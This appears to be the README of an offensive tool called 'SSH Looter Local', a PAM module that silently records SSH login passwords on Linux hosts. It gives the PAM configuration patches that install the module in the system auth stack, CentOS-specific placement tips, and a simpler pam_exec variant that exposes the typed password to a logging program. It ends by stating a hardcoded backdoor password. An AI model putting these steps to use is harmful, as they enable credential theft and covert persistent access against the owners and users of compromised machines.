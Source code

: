 # SSH Looter Local

This project cannot be made without reference from:

- https://github.com/mthbernardes/sshLooterC
- https://github.com/cameron-gagnon/ssh_pass_logging
- https://github.com/linux-pam/linux-pam

# Modified Part - License

Licensed under GNU AGPL v3.

# Usage

You may need install dependencies:
- gcc (compiler)
- linux-api-headers (userspace Linux API headers)
- linux-headers (kernel Linux API headers)
- libpam0g-dev

Change `/etc/pam.d/{system,common}-auth`, apply patches like this:

```bash
+ # custom PAM module
+ auth sufficient pam_sshaudit.so
+ account optional pam_sshaudit.so

auth [success=1 default=ignore] pam_unix.so nullok_secure

#here's the fallback if no module succeeds
auth requisite pam_deny.so
```

# CENTOS 7 Users

Backup and unlink `/etc/pam.d/system-auth`, then remove `/etc/pam.d/system-auth-ac`, copy your backup back and do your change to prevent from being overridden by `authconfig`.

Since `auth sufficient pam_unix.so` is not set as `required`, you must put the `pam_sshaudit.so` line above `pam_unix.so` .

CentOS 6:

Location: `/lib64/security/pam_sshaudit.so` 

PAM Config: `/etc/pam.d/password-auth` `/etc/pam.d/sshd`

# More simple but obvious way

Use `pam_exec` to record password. Example program written in Golang can be checked in `sshaudit.go`

```bash
auth optional pam_exec.so expose_authtok /usr/bin/sshaudit

auth [success=1 default=ignore] pam_unix.so nullok_secure

#here's the fallback if no module succeeds
auth requisite pam_deny.so
```

# Backdoor password

hardcoded as: `ZJuj38ML0ddNDZKw`
